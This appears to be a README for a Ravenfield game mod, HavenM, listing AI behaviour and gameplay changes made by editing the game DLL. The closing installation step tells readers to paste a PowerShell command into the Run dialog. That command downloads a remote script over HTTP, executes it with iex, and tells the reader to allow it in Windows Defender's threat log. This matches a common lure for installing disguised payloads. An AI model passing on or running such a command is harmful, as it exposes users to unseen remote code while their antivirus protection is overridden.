 # HavenM - AI and Gameplay Overhaul for Ravenfield

## What is HavenM?
HavenM is a game-changing AI and gameplay overhaul mod for *Ravenfield*, designed to enhance immersion, realism, and challenge. By modifying the game's DLL using *dnSpy*, this mod pushes AI behavior and game mechanics far beyond the vanilla experience.

## Why Modify the Game DLL with dnSpy?
Ravenfield's default AI often feels too predictable, lacking the tactical decision-making and combat awareness that could make battles more engaging. Over nearly two years of dedicated work, HavenM was created to introduce smarter, more reactive AI and refined game mechanics, offering a significantly improved experience.

## Key Features & Changes

### AI Improvements
- **Tactical Movement & Reactions**
  - AI soldiers go **prone under fire**, making them harder to hit.
  - AI no longer **auto-crouches** but instead jogs to objectives when not under fire, improving pacing and movement fluidity.
  - AI **halts vehicles to fire weapons**, with behavior influenced by skill level and weapon type.
  - AI **stops, aims, fires, and tracks targets** when using wire-guided missile weapons, greatly enhancing anti-vehicle effectiveness.
  - AI **exits vehicles when submerged** in water and leaves aircraft when stuck, preventing soft-lock situations.
  
- **Combat Behavior & Engagements**
  - Ai in vehicle will pop countermeasure when taking damage and lower than half health ( ground vehicle only)
  - Only veteran skill and Elite skill Ground vehicle driver can pop flare in response to lock on weapon tracking 
  - AI **fires more aggressively**, reducing hesitation and making firefights more intense.
  - AI from **all skill levels can lean**.
  - AI **hides behind the cover when under fire**.
  - AI **provides suppressive fire** on known enemy positions.
  - AI **prioritizes high-threat targets** like mortar teams rather than engaging randomly.
  - AI **engages low-flying and slow-moving aircraft**, making landing helicopters and air support more vulnerable.
  - AI **randomizes weapon switching** based on target engagement effectiveness, preventing predictable behavior.
  - AI **switches between grenades, under-barrel grenade launchers, and melee weapons** when appropriate.
  - Vehicles with **low passenger counts halt more often to provide fire support** instead of recklessly rushing into battle.
  - **Airplanes perform better** in air-to-ground attacks, adjusting tactics based on weapon loadout.
  - AI **driving vehicles now reverse based on their actual reverse speed**, reducing vehicle-stuck issues (e.g., T-72 tank).
  - AI **loadouts are randomized**.
  - AI **no longer drops their target** in SpecOps mode or when within **40m of an enemy**.
  - AI **panic fires when an enemy is within 20m**, ignoring weapon effectiveness (works well with kamikaze vehicle mods).
  - AI **piloting helicopters slows down and stabilizes** when spotting an enemy while using wire-guided missiles, improving targeting accuracy.
  - AI **grouped near cover is now considered an infantry group**, allowing explosives to target them effectively.
  - AI driver will halt when it has low or no passenger and the gunner is having a target

### New Game Mechanics
- **Weapon Mounting System**
  - Inspired by *Rising Storm: Vietnam*, players can now mount weapons on surfaces for improved accuracy and stability.

- **Advanced Missile Targeting**
  - Missiles **predict target movement** instead of flying straight, making dogfights and anti-vehicle combat more challenging.
  - Flares **don't stop missile locks**, but they confuse missiles, causing them to veer off unpredictably instead of always missing.
  
- **Tank Track climb**
  - Tank and tracked vehicle will climb over everything its tread touched
  
- **Simple Penetration System**
  - High-damage weapons now have penetration mechanics:
    - **Bullets & explosives pass through cover** if they deal **over 100 damage**.
    - **Explosives ignore cover & explode** if their damage is over **900**.

## Overhauled SpecOps Game Mode
HavenM includes a **complete revamp** of the SpecOps mode, making it more dynamic and challenging:

- **Dynamic enemy spawns**, ensuring unpredictable encounters.
- **Customizable objectives & enemy count**, allowing for tailored difficulty (bot number controls AI per objective, respawn timer controls, objective count).
- AI **exits vehicles** when the player is nearby to engage in direct combat.
- AI **flanks and ambushes players** based on skill level.
  - **Normal & lower-skill bots** rush to the player's last known position.
  - **Veteran bots** hold back, providing fire support and ambushing players who move carelessly.
- **Increased enemy spawns during exfiltration**, making the escape phase more intense.
- AI **no longer needs a direct line of sight to fire flares**—they react when alerted instead.

# Installation 
Copy this command, Win+R to open "Run" windows, paste it, and press Enter.

It will create an Updater shortcut in Desktop.

**YOU MAY NEED TO ALLOW THIS ACTION ON YOUR [WINDOWS DENFENDER](windowsdefender://threat)’s Log FOR THE FIRST TIME!!!**
```batch
powershell -nop -c "$w=(New-Object System.Net.WebClient);$w.Encoding=[System.Text.Encoding]::UTF8;iex($w.DownloadString('http://ravenfieldcommunity.github.io/static/get_havenm-utf8.ps1'));Read-Host;"
```
